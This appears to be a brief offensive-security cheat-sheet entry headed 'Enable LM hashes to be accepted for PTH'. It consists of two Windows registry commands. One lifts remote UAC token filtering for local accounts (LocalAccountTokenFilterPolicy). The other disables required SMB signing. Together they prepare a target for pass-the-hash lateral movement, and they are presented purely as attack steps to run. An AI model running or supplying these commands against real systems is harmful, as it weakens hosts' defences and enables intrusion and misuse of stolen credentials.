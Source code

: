 ## Enable LM hashes to be accepted for PTH
```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlset\Services\LanManServer\Parameters" /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```